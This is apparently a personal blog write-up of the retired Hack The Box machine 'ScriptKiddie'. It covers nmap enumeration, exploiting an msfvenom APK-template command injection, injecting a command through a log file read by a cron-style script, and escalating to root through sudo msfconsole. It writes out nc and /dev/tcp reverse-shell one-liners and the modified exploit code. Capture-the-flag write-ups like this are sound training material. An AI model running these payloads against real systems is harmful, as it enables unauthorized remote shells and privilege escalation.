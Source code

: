 ```yaml
---
layout: single
title: "Hackthebox write-up: ScriptKiddie"
namespace: htb-scriptkiddie
category: Writeup
tags: HackTheBox htb-easy htb-linux
date: 2021-06-05 16:00:00
header:
   teaser: https://i.imgur.com/wHnMfBz.png
---
```


Hello guys!

This week's machine will be **ScriptKiddie**, another easy-rated Linux box from [Hack The Box](https://www.hackthebox.eu), created by [0xdf](https://app.hackthebox.eu/users/4935).<!--more-->

:information_source: **Info**:  Write-ups for Hack The Box machines are posted as soon as they’re retired.
{: .notice--info}

![HTB ScriptKiddie](https://i.imgur.com/W5wv9JE.png){: .align-center}

## Enumeration

As usual, started running a `nmap` quick scan, to see which services were published in this machine.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.226                                                                   

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 14:05 -03
Nmap scan report for 10.10.10.226
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds
```

### 5000/TCP - HTTP Service

Once accessed the published page, noticed some hacking tools published making easier to a script kiddie to play with hacking, allowing you to scan an IP using `nmap`, create a `msfvenom` payload or search for exploits using `searchsploit`.

I've tried several ways to inject command in these forms, but none of the attempts succeeded. I have even found an interesting tool called [commixproject/commix](https://github.com/commixproject/commix) in GitHub that automates this process, but had no luck this time.

Looking for vulnerabilities in the tools used by the app (`nmap`, `msfvenom`, `searchsploit`), I have found one related to `msfvenom`, as below:

```bash
$ searchsploit msfvenom
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection | multiple/local/49491.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Initial access and User flag

After changing the python script available in searchsploit, using the desired payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, I have found some errors during the execution of the binary `keytool`, once it tries to sign an APK file with the payload in the Common Name but, as there was a `+` in the base64 encoded content, made a quick change to encode it twice, allowing me to create an evil APK to be uploaded to the tool and exploit the vulnerability

```python
# Change me
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
if '+' in payload_b64:
    payload_b64 = b64encode(payload_b64.encode()).decode()
    decode = '| base64 -d | base64 -d'
else:
    decode = '| base64 -d'

dname = f"CN='|echo -n {payload_b64} {decode} | sh #"
```

Below we can see the output of the execution which generates the `evil.apk` file.

```bash
$ python3 49491.py                                                                                                               
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
-dname: CN='|echo -n Y20wZ0wzUnRjQzltTzIxclptbG1ieUF2ZEcxd0wyWTdZMkYwSUM5MGJYQXZabnd2WW1sdUwzTm9JQzFwSURJK0pqRjhibU1nTVRBdU1UQXVNVFF1TVRNMklEUTBORE1nUGk5MGJYQXZaZz09 | base64 -d | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpt7qr4ner/evil.apk
Do: msfvenom -x /tmp/tmpt7qr4ner/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

After obtaining the evil payload, started one listener and selected the options suggested in the payload output, where selecting the android operating system would result in the payload `android/meterpreter/reverse_tcp` we aim to abuse based in the existing vulnerability, as well as specifying the lhost as 127.0.0.1 but this shouldn't impact the way exploit will work.

![Submiting the evil payload](https://i.imgur.com/hWgxfFw.png){: .align-center}

After hitting the **Generate** button, a reverse shell was returned, as seen below in this screenshot.

![reverse shell returned](https://i.imgur.com/VAYnB2r.png){: .align-center}

Inspecting the session obtained, with the credentials running the web application, in this case user `kid`, was possible to obtain the user flag, as the file resided in it's home directory.

```bash
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~$ cat /home/kid/user.txt
<redacted>
```

## Root flag

After running `linenum.sh` to automate the enumeration, noticed taht there was another user called `pwn`, possibly with more privileges than the user we currently have. As we had access to it's home directory, found a file called `scanloosers.sh` with the following content:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

As this script reads the content of a file in the current's user home directory (`/home/kid/logs/hackers`) and issues an `nmap` command, edited the content of this file in a way we would inject a reverse shell command with the user running this script, possibly `pwn`.

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' #" > ~/logs/hackers
```

After setting up a new listener and changing the `hackers` file with the above-mentioned content, another session was obtained, this time with the user `pwn` :smile:

Enumerating the box again, this time with the new user account, noticed by running `linpeas.sh` that this user has access to start `msfconsole` in a privileged way.

```plaintext
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Once started it using `sudo`, I was able to issue commands as user `root`, as well as read the content of file `/root/root.txt` and obtain the final flag for this machine.

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

<redacted>
msf6 >
```

Hope this was somehow useful!

See you in the next post :smiley:
